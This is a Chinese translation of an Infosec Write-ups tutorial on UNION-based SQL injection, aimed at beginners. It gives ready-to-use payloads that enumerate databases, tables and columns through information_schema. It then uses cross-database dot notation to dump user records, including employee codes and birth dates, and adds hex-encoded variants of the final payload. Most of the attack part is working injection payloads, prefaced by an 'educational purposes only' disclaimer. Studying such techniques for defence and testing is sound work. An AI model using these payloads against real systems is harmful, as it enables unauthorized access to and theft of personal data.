





# 许多 SQL 注入初学者不知道的技巧| Atmanand Nagpure 写文章

> 原文：<https://infosecwriteups.com/a-technique-that-a-lot-of-sql-injection-beginners-dont-know-atmanand-nagpure-write-up-abdc7c269dd5?source=collection_archive---------0----------------------->

你好。带着另一篇关于 SQL 注入技术的文章回来。
所以，我一直在看很多 SQL 注入的初学者。虽然他们试图从数据库中提取数据，但他们忽略了他们可以做得更好的事实。
注意，我没有任何破坏任何网站或任何组织的不良企图。这个帖子只是为了教育目的。

# **问题:**

初学者的问题是，他们只从执行易受攻击的查询的当前数据库中提取数据。他们甚至不会尝试访问其他数据库及其内容。因此，许多中级和高级 SQL 注入者可能知道这样一个事实，即如果以适当的权限执行查询，攻击者就可以访问该 SQL server 上的其他数据库。
那么，让我们来看看它实际上是怎么做的。

# **解决方案:**


还是 SQL 注入吧！！！

## 第一步:

嗯，利用序列的第一部分是提取服务器上存在的数据库的名称。实际上，使用组连接和联合选择可以很容易地做到这一点。

> **快速提示:** *UNION ALL SELECT* 可以用来代替 *UNION SELECT* 而 SQL 注入要联合两个结果而不执行 *DISTINCT* 操作；也就是说，它不会删除副本。

因此，让我们提取服务器上的数据库名称。

```
**Query**: ?param=’ AND 1=2 UNION ALL SELECT 1,(SELECT CAST(GROUP_CONCAT(schema_name,0x0a) as CHAR(4096)) FROM (SELECT * FROM information_schema.schemata)a),3,4,5,6,7,8,9 -- -
```

## 解释:

原始查询的表中有 9 列。您可以通过技术使用*命令找到它。因此，我编写了 *UNION ALL* select 1，2，3，4，5，6，7，8，9，并提取了位置 2 处的数据，并将其替换为自己的嵌套 select 查询。*

GROUP_CONCAT()函数用于连接返回结果的所有行。这里我使用了嵌套选择。在内部的 *SELECT* 语句中，我选择了*information _ schema . schemata 表*中的所有行。
*information _ schema . schemata*是一个表，其中存储了该服务器上存在的数据库的所有名称和其他信息。

我对 GROUP_CONCAT()结果执行了显式类型转换，以增加结果缓冲区的大小来存储和显示更多的结果。可以在 MySQL 和其他一些服务器中使用 *LIMIT m，n* 返回 m 和 n 范围内的行。

## 结果 1:



服务器上的数据库。

## **第二步:**


SqL 注入:表格和狗屎布鲁！

因此，接下来要做的事情是从我们选择的数据库中提取表名。让我们从名为“training”的数据库中提取表格。我们将这样做:

```
**Query:** ' AND 1=2 UNION ALL SELECT 1,(SELECT CAST(GROUP_CONCAT(table_name,0x0a) as CHAR(4096)) FROM (SELECT * FROM information_schema.tables WHERE table_schema='training')a),3,4,5,6,7,8,9 -- -
```

## 结果 2:



数据库中存在的表'培训'

## **第三步:**



有人来了！！！

接下来，我们将从我们选择的表中提取列名。我们可以用不同的方式来做，比如一次性完成(DIOS) SQL 注入。但是为了保持事情的简单和初学者友好，让我们只关注基本和简单的东西。

让我们使用以下查询从名为“start_15_users”的表中提取列名:

```
**Query:** ' AND 1=2 UNION ALL SELECT 1,(SELECT CAST(GROUP_CONCAT(column_name,0x0a) as CHAR(4096)) FROM (SELECT * FROM information_schema.columns WHERE table_name='start_15_users')a),3,4,5,6,7,8,9 -- -
```

## 结果 3:



从名为“start_15_users”的表中提取的列名

## 初学者的问题来了:

许多初学者不知道如何从不同的数据库中提取数据。
**结构化查询语言** (SQL)提供了从不同数据库获取数据的功能。的’。' **(圆点)**操作。

## 用法:

```
SELECT * from database_name.table_name;
```

就这么简单。但是，大多数初学者仍然不知道这种技术。

## 最后一步:


我们得到了它的人！！！

因此，让我们实际上从名为“start_15_users”的表中获取数据。

**查询:**

```
' AND 1=2 UNION ALL SELECT 1,(SELECT CAST(GROUP_CONCAT("UserId:",UserID,0x3a,"EmpCode:",EmpCode,0x3a,"DOB:",DOB,0x3a,"IsActive:",IsActive,0x0a) as CHAR(4096)) FROM (SELECT * FROM training.start_15_users)a),3,4,5,6,7,8,9 -- -
```

与以下内容相同:

```
' AND 1=2 UNION ALL SELECT 1,(SELECT CAST(GROUP_CONCAT(0x5573657249443a,UserID,0x3a,0x456d70436f64653a,EmpCode,0x3a,0x444f423a,DOB,0x3a,0x49734163746976653a,IsActive,0x0a) as CHAR(4096)) FROM (SELECT * FROM training.start_15_users)a),3,4,5,6,7,8,9 -- -
```

与以下内容相同:

```
' AND 1=2 UNION ALL SELECT 1,(SELECT CAST(GROUP_CONCAT(0x55,0x73,0x65,0x72,0x49,0x64,0x3a,UserID,0x3a,0x45,0x6d,0x70,0x43,0x6f,0x64,0x65,0x3a,EmpCode,0x3a,0x44,0x4f,0x42,0x3a,DOB,0x3a,0x49,0x73,0x41,0x63,0x74,0x69,0x76,0x65,0x3a,IsActive,0x0a) as CHAR(4096)) FROM (SELECT * FROM training.start_15_users)a),3,4,5,6,7,8,9 -- -
```

## 最终结果:



从名为“start_15_users”的表中提取的最终数据

## 最终注释:

> **注 0x00** :由于 GROUP_CONCAT 函数不会返回所有结果，我建议您使用 SQL 的 *LIMIT m，n* 来限制 m 和 n 的记录；这是两个自然数。或者您可以使用 SQL 提供的 CAST()函数来执行显式类型转换。
> 
> **注 0x01:** 在 SQL 中可以用#代替双破折号操作符来注释代码。

今天就到这里吧！
感谢您的阅读！

问候，
阿特曼和纳格普里(proghax333)

**我的另一篇帖子:
。** NET SQL 注入穿透错误:[https://medium . com/@ skillzworldtech/SQL-Injection-data-extraction-through-NET-framework-error-EC 9972858321](https://medium.com/@skillzworldtech/sql-injection-data-extraction-through-net-framework-error-ec9972858321)

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)